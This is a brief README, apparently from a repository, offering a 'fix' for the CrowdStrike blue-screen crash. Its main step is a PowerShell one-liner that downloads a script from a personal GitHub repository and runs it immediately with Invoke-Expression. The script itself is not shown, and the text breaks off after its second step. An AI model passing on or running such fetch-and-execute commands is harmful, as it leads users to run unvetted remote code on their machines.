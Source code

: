 # CrowdStrike
Blue Screen of Death Fix
Steps to Fix:

1) boot into safe mode.
2) execute this command

   Invoke-Expression (Invoke-WebRequest -Uri "https://raw.githubusercontent.com/ameydabhade/CrowdStrike/main/BSOD.ps1" -UseBasicParsing).Content

   or Run in powershell

     
